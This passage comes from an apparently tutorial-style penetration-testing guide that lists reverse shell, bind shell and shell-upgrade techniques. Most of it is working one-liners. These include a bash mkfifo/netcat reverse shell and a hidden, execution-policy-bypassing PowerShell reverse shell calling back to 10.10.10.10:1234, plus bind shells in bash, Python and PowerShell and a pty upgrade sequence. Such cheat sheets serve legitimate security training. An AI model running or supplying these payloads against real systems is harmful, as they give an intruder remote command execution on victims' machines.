 `Code: bash`

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

`Code: powershell`

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```



### Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Bind Shell Cheatsheet.md) to find a proper command to start our bind shell.

The following are reliable commands we can use to start a bind shell:

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### Upgrading a shell

```shell-session
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL Z
stty raw -echo
fg
[ENTER]
[ENTER]
```


[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"
